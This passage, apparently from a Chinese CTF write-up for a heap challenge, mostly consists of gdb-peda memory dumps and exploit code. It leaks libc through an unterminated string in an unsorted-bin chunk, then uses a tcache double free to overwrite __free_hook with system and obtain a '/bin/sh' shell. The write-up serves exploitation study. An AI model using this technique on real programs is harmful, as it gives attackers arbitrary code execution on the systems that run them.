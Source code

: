 chunk 被放进 unsorted bin 时：
```
gdb-peda$ vmmap heap
Start              End                Perm      Name
0x0000555555757000 0x0000555555778000 rw-p      [heap]
gdb-peda$ x/30gx 0x0000555555757000+0x10
0x555555757010: 0x0000000000000000      0x0700000000000000  <-- counts
0x555555757020: 0x0000000000000000      0x0000000000000000
0x555555757030: 0x0000000000000000      0x0000000000000000
0x555555757040: 0x0000000000000000      0x0000000000000000
0x555555757050: 0x0000000000000000      0x0000000000000000
0x555555757060: 0x0000000000000000      0x0000000000000000
0x555555757070: 0x0000000000000000      0x0000000000000000
0x555555757080: 0x0000000000000000      0x0000000000000000
0x555555757090: 0x0000000000000000      0x0000000000000000
0x5555557570a0: 0x0000000000000000      0x0000000000000000
0x5555557570b0: 0x0000000000000000      0x0000000000000000
0x5555557570c0: 0x0000000000000000      0x0000555555757a10  <-- entries
0x5555557570d0: 0x0000000000000000      0x0000000000000000
0x5555557570e0: 0x0000000000000000      0x0000000000000000
0x5555557570f0: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/6gx 0x555555757b50-0x10
0x555555757b40: 0x0000000000000000      0x0000000000000111
0x555555757b50: 0x00007ffff7dd2c78      0x00007ffff7dd2c78  <-- unsorted bin
0x555555757b60: 0x0000000000000000      0x0000000000000000
gdb-peda$ vmmap libc
Start              End                Perm      Name
0x00007ffff79f8000 0x00007ffff7bce000 r-xp      /home/firmy/gundam/libc.so.6
0x00007ffff7bce000 0x00007ffff7dce000 ---p      /home/firmy/gundam/libc.so.6
0x00007ffff7dce000 0x00007ffff7dd2000 r--p      /home/firmy/gundam/libc.so.6
0x00007ffff7dd2000 0x00007ffff7dd4000 rw-p      /home/firmy/gundam/libc.so.6
gdb-peda$ p 0x00007ffff7dd2c78 - 0x00007ffff79f8000
$1 = 0x3dac78
```
可以看到对应的 tcache bin 中已经放满了 7 个 chunk，所以第 8 块 chunk 被放进了 unsorted bin。

再次 malloc 之后：
```
gdb-peda$ x/6gx 0x555555757b50-0x10
0x555555757b40: 0x0000000000000000      0x0000000000000111
0x555555757b50: 0x0a41414141414141      0x00007ffff7dd2c78
0x555555757b60: 0x0000000000000000      0x0000000000000000
```
可以看到程序并没有在字符串后加 '\x00' 隔断，所以可以将 unsorted bin 的地址泄漏出来，然后通过计算得到 libc 基址。

```
[*] libc base: 0x7ffff79f8000
[*] __free_hook address: 0x7ffff7dd48a8
[*] system address: 0x7ffff7a3fdc0
```

#### overwrite
```python
def overwrite():
    destroy(2)
    destroy(1)
    destroy(0)
    destroy(0)      # double free

    blow_up()
    build(p64(__free_hook_addr))    # 0
    build('/bin/sh\x00')            # 1
    build(p64(system_addr))         # 2
```
